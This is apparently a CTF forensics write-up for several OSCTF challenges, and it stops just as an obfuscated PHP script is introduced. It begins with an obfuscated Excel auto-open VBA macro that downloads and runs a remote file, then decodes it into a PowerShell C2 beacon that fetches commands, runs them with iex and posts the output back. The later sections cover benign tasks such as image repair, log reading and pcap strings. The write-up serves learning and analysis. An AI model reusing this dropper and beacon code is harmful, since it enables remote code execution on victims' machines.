³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸².Open "get", ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨("ܳ³Bb://B_b³Ekài~B#/jàEÄ/²_Ä/À60äm_§À"), False
³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸².send
´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦ = ³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸².responseBody
If ³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸².Status = 200 Then
Set ¥·µ¬¹¿¬¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼ = CreateObject("adodb.stream")
¥·µ¬¹¿¬¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼.Open
¥·µ¬¹¿¬¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼.Type = ¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡
¥·µ¬¹¿¬¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼.Write ´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨µ£³¯½°²ª²µº´©¤£¤¡½¯ª¸¯¿¦
¥·µ¬¹¿¬¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼.SaveToFile ³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²¤µ»°°§§¹¾©·¬·ª°¸°¡¥·µ¬¹¿¬, ¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡ + ¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡
¥·µ¬¹¿¬¯¨³³¿¯©¶¦»ª¹½¦¢¨»¸¸¸º²£²«µ¤¶¸¹µ«¶§¾¼µ®»¶¾ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼.Close
End If
²ª²µº´©¤£¤¡½¯ª¸¯¿¦¤¢§¸®¼³¨¦¶¨¥³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥.Open (³°©¢¾¾¡µ¼£¹£»©¶©£¦µ¥¹¢µ¹·½§²¶·¼¥¨º»¡´¾«½²¢¢£°¨¤°º¥¦´¢¡¥¹¤¾½³¥¸²¤µ»°°§§¹¾©·¬·ª°¸°¡¥·µ¬¹¿¬)
Else
MsgBox ªºº³¦º§°¹¢¸¡³®»¹¶¯¾£º¦£¥²´¼¦¥²·´©¡»¨´°¦¼®¬®«»·»¢¶¶¿®«¾¢·³§½¿¤½¿§¡¼«¼´ª³²¬¸®º¼¤¼¬¿¥§·«´¡¤´½¨("åxi'³P³²ÛP³xP²¿iPQEPk²x")
End If
End Sub
```

So, this seems like a `obfuscated VBA script` and of course, I tried various deobfuscating tools before figuring it out. So this script is not obfuscated not literally, because it follows the syntax and semantics of a regular programming format. Just that the functions and variable names are totally messed up, so manually fixing the variable and function names gives you a much better and readable script. Here’s how it went for me.

```bash
Rem Attribute VBA_ModuleType=VBAModule
Option VBASupport 1
Sub Auto_Open()
Workbook_Open
End Sub
Sub AutoOpen()
Workbook_Open
End Sub
Sub WorkbookOpen()
Workbook_Open
End Sub
Sub Document_Open()
Workbook_Open
End Sub
Sub DocumentOpen()
Workbook_Open
End Sub
Function someFunction(funcArgs)
var1 = " ?!@#$%^&*()_+|0123456789abcdefghijklmnopqrstuvwxyz.,-~ABCDEFGHIJKLMNOPQRSTUVWXYZ¿¡²³ÀÁÂĂÄÅ̉ÓÔƠÖÙÛÜàáâăäåض§Ú¥"
var2 = "ăXL1lYU~Ùä,Ca²ZfĂ@dO-cq³áƠsÄJV9AQnvbj0Å7WI!RBg§Ho?K_F3.Óp¥ÖePâzk¶ÛNØ%G mÜ^M&+¡#4)uÀrt8(̉Sw|T*Â$EåyhiÚx65Dà¿2ÁÔ"
For y = 1 To Len(funcArgs)
var3 = InStr(var1, Mid(funcArgs, y, 1))
If var3 > 0 Then
var4 = Mid(var2, var3, 1)
var5 = var5 + var4
Else
var5 = var5 + Mid(funcArgs, y, 1)
End If
Next
someFunction = var5
For var6 = 1 To Len(var7)
var7 = var6
Next
For var8 = 2 To Len(var10)
var10 = 2
Next
For var11 = 3 To Len(var12)
var13 = var11
Next
For var14 = 4 To Len(var15)
var16 = 2
Next
End Function
Sub Workbook_Open()
Dim var17 As Object
Dim var18 As String
Dim var19 As String
Dim var20 As String
Dim var21 As Integer
var21 = Chr(50) + Chr(48) + Chr(48)
Set var17 = CreateObject("WScript.Shell")
var18 = var17.SpecialFolders("AppData")
Dim var22
Dim var23
Dim ¢var3¶
Dim var6 As Long
Dim var8 As String
Dim var24 As Long
Dim var13 As String
Dim var11 As Long
Dim var14 As String
Dim var25 As String
Dim var10 As Long
Dim var26
Dim var27
Dim var28 As Integer
Dim ³¯½°var27¹¤¾½³¥¸²
Dim var28
var28 = 1
Range("A1").Value = someFunction("4BEiàiuP3x6¿QEi³")
Dim var29 As String
var30 = "$x¿PÜ_jEPkEEiPÜ_6IE3P_i3PÛx¿²PàQBx²³_i³P3x6¿QEi³bPÜ_jEPkEEiPb³x#Eir" & vbCrLf & "̉xP²E³²àEjEP³ÜEbEP3_³_(PÛx¿P_²EP²E7¿à²E3P³xP³²_ib0E²P@mmIP³xP³ÜEP0x##xÄàiuPk_iIP_66x¿i³Pi¿QkE²:P" & vbCrLf & "@m@m@mo@@§mmm" & vbCrLf & "g66x¿i³PÜx#3E²:PLu¿ÛEiP̉Ü_iÜP!xiu" & vbCrLf & "t_iI:PTtPt_iI"
var29 = someFunction(var30)
MsgBox var29, vbInformation, someFunction("pEP3EEB#ÛP²Eu²E³P³xPài0x²QPÛx¿")
Dim var31 As Date
Dim var32 As Date
var31 = Date
var32 = DateSerial(2024, 7, 8)
If var31 < var32 Then
Set ³¯½°var27¹¤¾½³¥¸² = CreateObject("microsoft.xmlhttps")
Set var27 = CreateObject("Shell.Application")
var26 = var18 + someFunction("\k¿i6Ü_~Bb@")
³¯½°var27¹¤¾½³¥¸².Open "get", someFunction("ܳ³Bb://B_b³Ekài~B#/jàEÄ/²_Ä/À60äm_§À"), False
³¯½°var27¹¤¾½³¥¸².send
var23 = ³¯½°var27¹¤¾½³¥¸².responseBody
If ³¯½°var27¹¤¾½³¥¸².Status = 200 Then
Set var22 = CreateObject("adodb.stream")
var22.Open
var22.Type = var28
var22.Write var23
var22.SaveToFile var26, var28 + var28
var22.Close
End If
var27.Open (var26)
Else
MsgBox someFunction("åxi'³P³²ÛP³xP²¿iPQEPk²x")
End If
End Sub
```

This VBA macro code contains several subroutines and a function designed to execute upon opening a workbook in Excel. Here's a summarized explanation of each part:

1. **Auto-Executing Subroutines:**
    - `Auto_Open`, `AutoOpen`, `WorkbookOpen`, `Document_Open`, and `DocumentOpen` all call `Workbook_Open` to execute it when the workbook is opened.
2. **Character Substitution Function:**
    - `Function someFunction(funcArgs)`: This function performs a character substitution using two predefined strings (`var1` and `var2`). It replaces each character in the input string `funcArgs` with the corresponding character from `var2` based on its position in `var1`.
3. **Main Subroutine - Workbook_Open:**
    - **Object Creation and Variable Initialization:**
        - Creates an object `var17` for accessing the Windows Script Host Shell.
        - Sets up several variables, including paths and strings.
    - **Character Substitution and Output:**
        - Uses the `someFunction` to encode a string and set it in cell A1 of the active sheet.
        - Encodes another multiline string and displays it in a message box.
    - **Date Check and https Request:**
        - Checks if the current date is before July 8, 2024.
        - If true, creates an `XMLhttps object to send a GET request to a specific URL (obfuscated)`.
        - Saves the response to a file in the user's AppData directory and then opens the file.
        - If the date condition is not met, displays a message box with another encoded message.

In summary, the macro performs character substitution, checks the current date, sends an https request, saves the response as a file, and executes or displays messages based on these conditions.

I have no idea, why the VBA script checks the time, anyways, `ChatGPT` done a good job explaining the script.

So, we write a script to reverse the obfuscated URL.

```python
def someFunction(funcArgs):
    var1 = " ?!@#$%^&*()_+|0123456789abcdefghijklmnopqrstuvwxyz.,-~ABCDEFGHIJKLMNOPQRSTUVWXYZ¿¡²³ÀÁÂĂÄÅ̉ÓÔƠÖÙÛÜàáâăäåض§Ú¥"
    var2 = "ăXL1lYU~Ùä,Ca²ZfĂ@dO-cq³áƠsÄJV9AQnvbj0Å7WI!RBg§Ho?K_F3.Óp¥ÖePâzk¶ÛNØ%G mÜ^M&+¡#4)uÀrt8(̉Sw|T*Â$EåyhiÚx65Dà¿2ÁÔ"
    var5 = ""

    for char in funcArgs:
        var3 = var1.find(char)
        if var3 != -1:
            var4 = var2[var3]
            var5 += var4
        else:
            var5 += char
    
    return var5

url = "ܳ³Bb://B_b³Ekài~B#/jàEÄ/²_Ä/À60äm_§À"

convertedURL = someFunction(url)
print("Converted URL:", convertedURL)
```

```python
└─$ python3 deobf.py
Converted URL: https://pastebin.pl/view/raw/8cf50a28
```

Going into the link, we find another kind-off obfuscated PowerShell command.




```python
& ( $sHEllid[1]+$sheLLiD[13]+'X')( NEW-obJEct Io.cOMPReSSiON.DEFlAteStrEAM( [SyStem.iO.mEMOrySTream] [SysteM.cOnVerT]::FRomBase64STRINg( 'JAAwAEwARABFAHgATgBpACAAPQAgACcASgBIAEYAMwBaAFcAUgBtAFkAWABvAGcAUABTAEEAbwBNAFQAQQAwAEwARABFAHgATgBpAHcAeABNAFQAWQBzAE0AVABFAHkATABEAEUAeABOAFMAdwAxAE8AQwB3ADAATgB5AHcAMABOAHkAdwB4AE0AVABJAHMATwBUAGMAcwBNAFQARQAxAEwARABFAHgATgBpAHcAeABNAEQARQBzAE8AVABnAHMATQBUAEEAMQBMAEQARQB4AE0AQwB3ADAATgBpAGsANwBKAEgARgAzAFoAVwBSAG0AWQBYAG8AZwBLAHoAMABnAEsARABFAHgATQBpAHcAeABNAEQAZwBzAE4ARABjAHMATQBUAEUANABMAEQARQB3AE4AUwB3AHgATQBEAEUAcwBNAFQARQA1AEwARABRADMATABEAEUAeABOAEMAdwA1AE4AeQB3AHgATQBUAGsAcwBOAEQAYwBzAE8AVABnAHMATQBUAEEAdwBMAEQAawA1AEwARABrADMATABEAFEANQBMAEQAVQAxAEwARABRADQATABEAFUAdwBLAFQAcwBrAFoAMgBGAHMAWgBpAEEAOQBJAEYAdABUAGUAWABOADAAWgBXADAAdQBWAEcAVgA0AGQAQwA1AEYAYgBtAE4AdgBaAEcAbAB1AFoAMQAwADYATwBrAEYAVABRADAAbABKAEwAawBkAGwAZABGAE4AMABjAG0AbAB1AFoAeQBnAGsAYwBYAGQAbABaAEcAWgBoAGUAaQBrADcASgBIAE0AOQBKAHoARQB5AE4AeQA0AHcATABqAEEAdQBNAFQAbwA0AE0ARABnAHcASgB6AHMAawBhAFQAMABuAFoAVwBWAG0ATwBHAFYAbQBZAFcATQB0AE0AegBJAHgAWgBEAFEAMgBOAFcAVQB0AFoAVABsAGsATQBEAFUAegBZAFQAYwBuAE8AeQBSAHcAUABTAGQAbwBkAEgAUgB3AE8AaQA4AHYASgB6AHMAawBkAGoAMQBKAGIAbgBaAHYAYQAyAFUAdABWADIAVgBpAFUAbQBWAHgAZABXAFYAegBkAEMAQQB0AFYAWABOAGwAUQBtAEYAegBhAFcATgBRAFkAWABKAHoAYQBXADUAbgBJAEMAMQBWAGMAbQBrAGcASgBIAEEAawBjAHkAOQBsAFoAVwBZADQAWgBXAFoAaABZAHkAQQB0AFMARwBWAGgAWgBHAFYAeQBjAHkAQgBBAGUAeQBKAFkATABUAFkANABNAEcAUQB0AE4ARABkAGwATwBDAEkAOQBKAEcAbAA5AE8AMwBkAG8AYQBXAHgAbABJAEMAZwBrAGQASABKADEAWgBTAGwANwBKAEcATQA5AEsARQBsAHUAZABtADkAcgBaAFMAMQBYAFoAVwBKAFMAWgBYAEYAMQBaAFgATgAwAEkAQwAxAFYAYwAyAFYAQwBZAFgATgBwAFkAMQBCAGgAYwBuAE4AcABiAG0AYwBnAEwAVgBWAHkAYQBTAEEAawBjAEMAUgB6AEwAegBNAHkATQBXAFEAMABOAGoAVgBsAEkAQwAxAEkAWgBXAEYAawBaAFgASgB6AEkARQBCADcASQBsAGcAdABOAGoAZwB3AFoAQwAwADAATgAyAFUANABJAGoAMABrAGEAWAAwAHAATABrAE4AdgBiAG4AUgBsAGIAbgBRADcAYQBXAFkAZwBLAEMAUgBqAEkAQwAxAHUAWgBTAEEAbgBUAG0AOQB1AFoAUwBjAHAASQBIAHMAawBjAGoAMQBwAFoAWABnAGcASgBHAE0AZwBMAFUAVgB5AGMAbQA5AHkAUQBXAE4AMABhAFcAOQB1AEkARgBOADAAYgAzAEEAZwBMAFUAVgB5AGMAbQA5AHkAVgBtAEYAeQBhAFcARgBpAGIARwBVAGcAWgBUAHMAawBjAGoAMQBQAGQAWABRAHQAVQAzAFIAeQBhAFcANQBuAEkAQwAxAEoAYgBuAEIAMQBkAEUAOQBpAGEAbQBWAGoAZABDAEEAawBjAGoAcwBrAGQARAAxAEoAYgBuAFoAdgBhADIAVQB0AFYAMgBWAGkAVQBtAFYAeABkAFcAVgB6AGQAQwBBAHQAVgBYAEoAcABJAEMAUgB3AEoASABNAHYAWgBUAGwAawBNAEQAVQB6AFkAVABjAGcATABVADEAbABkAEcAaAB2AFoAQwBCAFEAVAAxAE4AVQBJAEMAMQBJAFoAVwBGAGsAWgBYAEoAegBJAEUAQgA3AEkAbABnAHQATgBqAGcAdwBaAEMAMAAwAE4AMgBVADQASQBqADAAawBhAFgAMABnAEwAVQBKAHYAWgBIAGsAZwBLAEYAdABUAGUAWABOADAAWgBXADAAdQBWAEcAVgA0AGQAQwA1AEYAYgBtAE4AdgBaAEcAbAB1AFoAMQAwADYATwBsAFYAVQBSAGoAZwB1AFIAMgBWADAAUQBuAGwAMABaAFgATQBvAEoARwBVAHIASgBIAEkAcABJAEMAMQBxAGIAMgBsAHUASQBDAGMAZwBKAHkAbAA5AEkASABOAHMAWgBXAFYAdwBJAEQAQQB1AE8AWAAwAD0AJwA7ACQAMgBWAEMAWQBYAE4AcABZADEAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBUAEYAOAAuAEcAZQB0AFMAdAByAGkAbgBnACgAWwBTAHkAcwB0AGUAbQAuAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACQAMABMAEQARQB4AE4AaQApACkAOwAkAHMAawBjAGoAMQBQAGQAWABRAHQAIAA9ACAAQwBvAG4AdgBlAHIAdABUAG8ALQBTAGUAYwB1AHIAZQBTAHQAcgBpAG4AZwAgAC0AUwB0AHIAaQBuAGcAIAAkADIAVgBDAFkAWABOAHAAWQAxACAALQBBAHMAUABsAGEAaQBuAFQAZQB4AHQAIAAtAEYAbwByAGMAZQA7ACQAVgB6AGQAQwBBAHQAVgBYAEoAcAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBNAGEAbgBhAGcAZQBtAGUAbgB0AC4AQQB1AHQAbwBtAGEAdABpAG8AbgAuAFAAUwBDAHIAZQBkAGUAbgB0AGkAYQBsACgAJwBkAFcAVgB6AGQAZAB6AEMAQQB0ACcALAAgACQAcwBrAGMAagAxAFAAZABYAFEAdAApADsAaQBlAHgAIAAkAFYAegBkAEMAQQB0AFYAWABKAHAALgBHAGUAdABOAGUAdAB3AG8AcgBrAEMAcgBlAGQAZQBuAHQAaQBhAGwAKAApAC4AUABhAHMAcwB3AG8AcgBk' ) , [sySteM.IO.ComprESsiON.cOmpresSiONMODe]::dEcomPrEss)|fOReach-OBJECt{NEW-obJEct  iO.sTReAMrEAder( $_ , [TExT.EncOdiNg]::AscIi)} | fOREacH-obJeCt{$_.reADToend( )})
```

You will see Base64 encoded stuff in between the command. Decode it. That reveal another set of commands underneath. Plus a Base64 string.

```python
$0LDExNi = 'JHF3ZWRmYXogPSAoMTA0LDExNiwxMTYsMTEyLDExNSw1OCw0Nyw0NywxMTIsOTcsMTE1LDExNiwxMDEsOTgsMTA1LDExMCw0Nik7JHF3ZWRmYXogKz0gKDExMiwxMDgsNDcsMTE4LDEwNSwxMDEsMTE5LDQ3LDExNCw5NywxMTksNDcsOTgsMTAwLDk5LDk3LDQ5LDU1LDQ4LDUwKTskZ2FsZiA9IFtTeXN0ZW0uVGV4dC5FbmNvZGluZ106OkFTQ0lJLkdldFN0cmluZygkcXdlZGZheik7JHM9JzEyNy4wLjAuMTo4MDgwJzskaT0nZWVmOGVmYWMtMzIxZDQ2NWUtZTlkMDUzYTcnOyRwPSdodHRwOi8vJzskdj1JbnZva2UtV2ViUmVxdWVzdCAtVXNlQmFzaWNQYXJzaW5nIC1VcmkgJHAkcy9lZWY4ZWZhYyAtSGVhZGVycyBAeyJYLTY4MGQtNDdlOCI9JGl9O3doaWxlICgkdHJ1ZSl7JGM9KEludm9rZS1XZWJSZXF1ZXN0IC1Vc2VCYXNpY1BhcnNpbmcgLVVyaSAkcCRzLzMyMWQ0NjVlIC1IZWFkZXJzIEB7IlgtNjgwZC00N2U4Ij0kaX0pLkNvbnRlbnQ7aWYgKCRjIC1uZSAnTm9uZScpIHskcj1pZXggJGMgLUVycm9yQWN0aW9uIFN0b3AgLUVycm9yVmFyaWFibGUgZTskcj1PdXQtU3RyaW5nIC1JbnB1dE9iamVjdCAkcjskdD1JbnZva2UtV2ViUmVxdWVzdCAtVXJpICRwJHMvZTlkMDUzYTcgLU1ldGhvZCBQT1NUIC1IZWFkZXJzIEB7IlgtNjgwZC00N2U4Ij0kaX0gLUJvZHkgKFtTeXN0ZW0uVGV4dC5FbmNvZGluZ106OlVURjguR2V0Qnl0ZXMoJGUrJHIpIC1qb2luICcgJyl9IHNsZWVwIDAuOX0=';$2VCYXNpY1 = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($0LDExNi));$skcj1PdXQt = ConvertTo-SecureString -String $2VCYXNpY1 -AsPlainText -Force;$VzdCAtVXJp = New-Object System.Management.Automation.PSCredential('dWVzddzCAt', $skcj1PdXQt);iex $VzdCAtVXJp.GetNetworkCredential().Password
```

Note: Remove null bytes after decoding the Base64, if you were using `cyberchef`.

```python
$qwedfaz = (104,116,116,112,115,58,47,47,112,97,115,116,101,98,105,110,46);
$qwedfaz += (112,108,47,118,105,101,119,47,114,97,119,47,98,100,99,97,49,55,48,50);
$galf = [System.Text.Encoding]::ASCII.GetString($qwedfaz);$s='127.0.0.1:8080';
$i='eef8efac-321d465e-e9d053a7';
$p='https://';
$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/eef8efac -Headers @{"X-680d-47e8"=$i};
while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/321d465e 
-Headers @{"X-680d-47e8"=$i}).Content;
if ($c -ne 'None') {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String 
-InputObject $r;$t=Invoke-WebRequest -Uri $p$s/e9d053a7 -Method POST 
-Headers @{"X-680d-47e8"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) 
-join ' ')} sleep 0.9}
```

We, finally get the following PowerShell script.

- `$qwedfaz = (104,116,116,112,115,58,47,47,112,97,115,116,101,98,105,110,46);`
    - Initializes an array with ASCII values corresponding to the string "https://pastebin.".
- `$qwedfaz += (112,108,47,118,105,101,119,47,114,97,119,47,98,100,99,97,49,55,48,50);`
    - Adds more ASCII values to complete the URL, resulting in "https://pastebin.pl/view/raw/bdca1702".

Going to the above link, we get the flag.

```python
└─$ curl https://pastebin.pl/view/raw/bdca1702
OSCTF{JU5t_n0rmal_eXE1_f113_w1th_C2_1n51De}
```



Flag:`OSCTF{JU5t_n0rmal_eXE1_f113_w1th_C2_1n51De}`

### **Seele Vellorei - Revenge**

**Description**: 

Last time, you Solved my challenge easily, but this time I challenge you to Come to see my flag, if you can

**Author**: @Anhshidou

**Given**: Flag.zip



Obviously, it’s password protected. Using `zip2john` to extract the hash.

Shoutout to `@lunaroa` for explaining the challenge on Discord.




Now, we’ve been given an image to analyse.

```python
└─$ exiftool flag.png
ExifTool Version Number         : 12.76
File Name                       : flag.png
<>
Warning                         : [minor] Text/EXIF chunk(s) found after PNG IDAT (may be ignored by some readers)
Ciphermode                      : CTR
Ciphernonce                     : 05f7719c9571b58e11af440c77bd058616a07dff4b4edf493ca78ba40a746352
Ciphertype                      : AES
Datecreate                      : 2024-06-14T16:07:43+00:00
Datemodify                      : 2024-06-14T16:07:43+00:00
Image Size                      : 863x206
Megapixels                      : 0.178
```

Interesting points to note is presence of these tags,  

<aside>
💡 Ciphermode                      : CTR
Ciphernonce                     : 05f7719c9571b58e11af440c77bd058616a07dff4b4edf493ca78ba40a746352
Ciphertype                      : AES

</aside>

And also if we care to open the the image,


Defo, something is going on. Quick Google to find out what this means.

[JUST_ONE_MESSAGE](https://www.reddit.com/r/ARG/comments/1arfjda/just_one_message/)

Here’s a link on Reddit that goes through a similar challenge, suggested by `@lunaroa`.

We go to this website, enter the password `loveyou` again and get the flag.

[Decrypt image online - Decrypt / Decipher an image using secret password - free tool.](https://decrypt.imageonline.co/index.php)



Flag: `OSCTF{h0nk4i_1s_my_f4v_g4m35}`

### **The Lost Image Mystery**

**Description**: 

In the bustling city of Cyberville, a crucial image file has been corrupted, and it's up to you, a budding digital forensics expert, to recover it. The file appears to be damaged, can you recover the contents of the file?

Author: `@5h1kh4r`

Given: `image.png`

As given in the question, the image is actually a corrupted JPEG image, just change the JPEG header of the image to get the flag in the fixed image.

```python
 FF D8 FF E0  <>  ......JFIF.
```


Flag: `OSCTF{W0ah_F1l3_h34D3r5}`

### **The Hidden Soundwave**

**Description**: 

We've intercepted some signals which is allegedly transmitted by aliens...? Do aliens listen to Alan Walker? I don't know, it's up to you to understand but we are sure there's something hidden in this song and we need to decrypt it!

**Author**: `@5h1kh4r`

**Given**: `Alan_Walker_Faded.mp3`

Just view the MP3 file in Audio Spectrogram using `Audacity` or `Sonic-Visualiser`.



Flag: `OSCTF{M3s54g3_1nt3Rc3p7eD}`

### **Mysterious Website Incident**

**Description**: 

In the heart of Cyber City, a renowned e-commerce website has reported suspicious activity on its servers. As a rookie digital investigator, you've been called in to uncover the truth behind this incident. Your journey begins with examining the server's records, searching for clues that could shed light on what transpired.

Author: `@5h1kh4r`

Given: `nginx_logs.txt`

Opening the file in a Text Editor and playing around, in Line 267, we get to see a Google Drive link.

```python
my_secret :D - - [14/Jun/2024:07:47:14 +0000] "GET https://drive.google.com/file/d/15IwD7QiSKtvmW7XG2gYkdnwW0bxXBgdj/view?usp=drive_link https/1.0" 200 3625 "https://test.com" "Mozilla/5.0 (compatible; Googlebot/2.1; +https://www.google.com/bot.html)"
```

**Flag**: `OSCTF{1_c4N_L0g!}`

### **Cyber Heist Conspiracy**

**Description**: 

In the heart of Silicon City, rumors swirl about a sophisticated cyber heist orchestrated through covert network channels. As a novice cyber investigator, you've been tasked with analyzing a mysterious file recovered from the scene of the digital crime.

**Author**: `@5h1kh4r`

**Given**: `capture.pcapng`

```python
└─$ strings capture.pcapng
        }"v
UM!R
        P..
1:D/
p7      mS
a<`b
OSCTF{Pr0_W1Th_PC4Ps}
```

Flag: `OSCTF{Pr0_W1Th_PC4Ps}`

### **Phantom Script Intrusion**

**Description**:

In the realm of Cyberspace County, a notorious cybercriminal has planted a stealthy PHP malware script on a local server. This malicious script has been cunningly obfuscated to evade detection. As a novice cyber detective, you are called upon to unravel the hidden intentions behind this cryptic code.

**Author**: `@5h1kh4r`

**Given**: code.txt

We are given an obfuscated PHP script.

```python
└─$ cat code.txt
<?php
